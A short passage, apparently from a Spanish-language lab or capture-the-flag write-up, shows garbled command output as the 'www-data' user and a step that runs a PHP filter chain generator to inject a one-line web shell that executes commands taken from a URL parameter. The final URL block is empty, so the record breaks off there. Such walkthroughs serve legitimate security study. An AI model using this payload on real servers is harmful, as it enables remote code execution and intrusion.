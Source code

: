 Resultado:

```xml
www-data � P�������>==�@C������>...
```

Acción 6:

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'
```

```URL
```